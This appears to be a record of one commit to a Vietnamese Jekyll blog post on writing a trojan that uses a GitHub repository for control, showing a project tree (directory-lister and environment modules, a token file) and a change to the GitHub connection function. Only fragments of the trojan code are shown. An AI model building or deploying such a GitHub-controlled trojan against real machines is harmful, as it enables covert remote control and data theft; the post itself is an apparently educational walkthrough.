

Before and after one commit to ybvy/ybvy.github.io, a Jekyll site: the page built from _posts/2025-03-21-trojan-with-github.md, in a window 1280 px wide and 900 px high, scrolled down 481 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
add post trojan

```diff
--- a/_posts/2025-03-21-trojan-with-github.md
+++ b/_posts/2025-03-21-trojan-with-github.md
@@ -31,6 +31,20 @@ Trojan không tự nhân bản như virus hay sâu máy tính (worm), mà thư
 
 ---
 # Code Trojan with Github
+
+>Bash
+{% highlight bash %}
+bhptrojan
+├── config
+│   └── abc.json
+├── data
+├── git_trojan.py
+├── modules
+│   ├── dirlister.py
+│   └── enviroment.py
+└── my_token.txt
+{% endhighlight %}
+
 >Python
 {% highlight python lineos %}
 import base64
@@ -45,7 +59,7 @@ import time
 from datetime import datetime
 from github3.repos.contents import Contents
 
-def github_connect(token_path='token.txt', owner='ybvy', repo='bhptrojan') -> github3.repos.Repository:
+def github_connect(token_path='path_to_personal_access_token_file', owner='owner', repo='repo_name') -> github3.repos.Repository:
     """Connects to the GitHub repository."""
     with open(token_path) as f:
         token = f.read().strip()
@@ -151,6 +165,7 @@ if __name__ == "__main__":
 {% endhighlight %}
 
 
+
 <script src="https://giscus.app/client.js"
         data-repo="ybvy/ybvy.github.io"
         data-repo-id="R_kgDONiHcVw"
```
